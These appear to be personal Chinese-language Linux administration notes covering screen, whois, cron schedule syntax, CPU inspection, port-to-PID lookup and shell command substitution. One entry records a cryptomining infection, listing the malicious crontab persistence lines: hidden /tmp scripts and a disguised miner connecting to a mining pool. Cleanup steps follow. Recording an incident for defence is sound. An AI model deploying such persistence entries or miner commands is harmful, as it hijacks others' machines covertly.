         常用操作二、让代码再后台运行。
    
        Attached    已连接的，  Detached  分离的，                        注意看screen 后面的状态
    12. whois 119.3.247.174                                         查询到域名的注册信息
        whois qq.com
    
    13. 记录crontab 妙用（惨遭挖矿）
        crontab -l 
            @reboot /tmp/.cache/.cron-tick >> /dev/null 2>&1
            @daily /tmp/.cache/.daily-tick >> /dev/null 2>&1
            3 * * * * /bin/dhpcd -o xxx.minemxr.com:80 -B >/dev/null 2>/dev/null
        修改root 远程密码。 设置文件禁止修改(chattr +i -R .cache/)。 移除脚本。审计对定时任务的修改记录。
    
        @reboot sleep 60; /root/bakup.sh  开机后等待一分钟，执行脚本
        @reboot Run once, at startup.
        @yearly Run once a year, “0 0 1 1 *”
        @annually (same as @yearly)
        @monthly Run once a month, “0 0 1 * *”
        @weekly Run once a week, “0 0 * * 0”
        @daily Run once a day, “0 0 * * *”
        @midnight (same as @daily)
        @hourly Run once an hour, “0 * * * *”

6. 查看服务器CPU，运存情况
    1. cat /proc/cpuinfo  | grep processor | wc -l      4个CPU处理器
        cat /proc/cpuinfo | grep cores                  每个CPU含4个核心，所以是，16核处理器
        或者通过lscpu，CPU(s): 4,   Core(s) per socket: 4， Socket(s): 1，      所以，其逻辑CPU的数量就是Socket*core*thread  也就是threads

6. echo ${BASH_SOURCE[0]}                               获取到脚本自身文件名
    注意，不同的是，echo $0

7. 通过端口查找进程PID，通过PID查找端口，就这几个命令
    ps -ef | grep 9090
    ss -tulnp | grep 9090
    lsof -n -i :9090 | grep -i listen
    1. 为什么top 查出来的pid，用ss命令查找不到呢，查不到对应的进程，
        哦，用netstat 也是查不到的
        但是用ps，就能查找到，
    2. ps aux | grep 9090,                              能查出两个进程，一个 24010 /usr/bin/docker-proxy ...；一个 24045 /bin/prometheus ...（本机并未安装prometheus）
        在top 里面显示的PID是 24045；而你用ss， 或者netstat呢，查PID理应是用24010查，用24045 就查不出来（ss 应该是用来，通过端口查进程PID的）
        或者也可以理解为，PID 24045的进程 /bin/prometheus，不占用本机的端口？
        经发现，该容器映射的端口为，0.0.0.0:9090->9090/tcp，    这也说明以后尽量不要将容器内和映射端口搞成一致的。
    


8. ll -ht | head -n 2， 查看结果中排在前面的

8. centos7安装sql-server，
    [参考](https://blog.51cto.com/13770206/2429881)


11. linux系统架构从外到内，可以分为，应用层（封装起来的shell）、 shell、 kernel、 hardware

13. 反引号 `` 和 &()
    TIME=$(date +%Y-%m-%d_%H-%M-%S)
    `cat /etc/issue | grep -w "\\\S" | wc -l`       反引号本身就对\ 做了一层转义，所以两个\\ 才是进行转义
    $(cat /etc/issue | grep -w "\\\S" | wc -l`)
    反引号是老的用法，$() 是新用法
